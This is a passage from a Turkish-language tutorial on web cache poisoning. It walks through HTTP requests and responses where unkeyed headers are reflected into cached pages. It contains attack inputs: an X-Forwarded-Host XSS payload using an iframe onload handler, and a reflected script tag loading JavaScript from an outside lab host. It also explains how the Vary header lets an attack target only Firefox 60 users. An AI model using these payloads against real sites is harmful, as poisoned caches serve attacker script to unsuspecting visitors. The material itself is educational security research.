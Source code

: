 <div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age<span class="o">=</span>1800
…
&lt;script <span class="nv">src</span><span class="o">=</span><span class="s2">"https://<span style="color:DodgerBlue">portswigger-labs.net</span>/sites/files/foo.js"</span><span class="o">&gt;</span>&lt;/script&gt;
</code></pre></div></div>

Burada, `X-Host` başlığının anahtar olarak kullanılmadığı ve yanıtta yansıtıldığını görebiliyoruz. Ayrıca yanıtta yer alan `Cache-Control: max-age=1800` değeri sayesinde önbelleğe alınan verilerin ne kadar süreyle önbellekte tutulduğu konusunda da bilgi edinebiliyoruz. Birlikte ele alındığında bunlar bize, yanıtımızın önbelleğe alınmasını sağlamak için veri yükümüzü göndermemiz gereken tam saniyeyi söyler.

### Seçici-Hedef Odaklı Zehirleme

HTTP başlıkları cache mekanizmaları konusunda pek çok yararlı bilgi sunabiliyor. Aşağıdaki örnek, Fastly kullanan popüler bir websitesine ait.

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 … Firefox/60.0
<span style="color:DodgerBlue">X-Forwarded-Host: a<span class="s2">"&gt;&lt;iframe onload=alert(1)&gt;</span>
</span></code></pre></div></div>

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
&lt;<span class="nb">link </span><span class="nv">rel</span><span class="o">=</span><span class="s2">"canonical"</span> <span class="nv">href</span><span class="o">=</span><span class="s2">"https://a"</span><span style="color:DodgerBlue"><span class="o">&gt;</span>a&lt;iframe <span class="nv">onload</span><span class="o">=</span>alert<span class="o">(</span>1<span class="o">)&gt;</span></span>
&lt;/iframe&gt; 
</code></pre></div></div>

Bu örnek başlangıçta ilk örnekle neredeyse aynı görünüyor. Ancak `Vary` başlığı bize `User-Agent`’in önbellek anahtarının bir parçası olabileceğini belirtiyor ve manuel testler bunu doğruluyor. Bu durum, Firefox 60 kullandığımızı iddia ettiğimiz için, istismarımızın yalnızca diğer Firefox 60 kullanıcılarına sunulacağı anlamına geliyor. Dolayısıyla hedef odaklı seçici bir saldırı için bu tür anahtar değerleri kullanılabilir. 

### DOM Zehirleme

Anahtar olarak kullanılmayan girdilere XSS yükleri ekleyerek zafiyet oluşturmak her zaman mümkün olmayabilir. 

Örneğin aşağıdaki istek ve yanıt üzerinden ilerleyecek olursak;
